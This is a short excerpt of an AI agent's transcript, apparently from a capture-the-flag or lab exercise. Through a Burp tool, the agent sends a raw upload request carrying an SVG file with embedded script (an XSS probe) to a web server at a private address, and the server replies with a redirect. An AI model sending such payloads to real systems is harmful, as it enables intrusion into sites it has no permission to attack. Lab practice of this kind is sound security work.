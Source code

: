The id.txt file is not accessible. Let's try a different approach by exploiting potential vulnerabilities in the image processing functionality. Let's try to upload an SVG file with embedded script that could execute commands.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "POST /upload.php HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nContent-Type: multipart/form-data; boundary=---------------------------12345678901234567890123456789\r\nContent-Length: 399\r\nConnection: close\r\n\r\n-----------------------------12345678901234567890123456789\r\nContent-Disposition: form-data; name=\"image\"; filename=\"exploit.svg\"\r\nContent-Type: image/svg+xml\r\n\r\n<?xml version=\"1.0\" standalone=\"no\"?>\r\n<!DOCTYPE svg PUBLIC \"-//W3C//DTD SVG 1.1//EN\" \"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd\">\r\n<svg width=\"200\" height=\"200\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\">\r\n<script>alert(1)</script>\r\n</svg>\r\n-----------------------------12345678901234567890123456789--",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---

**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 302 Found
Date: Wed, 07 May 2025 23:40:25 GMT
Server: Apache/2.4.55 (Ubuntu)
Location: /success.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8


<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:40:26 PM (America/New_York, UTC-4:00)

# Context Window Usage
41,224 / 200K tokens used (21%)
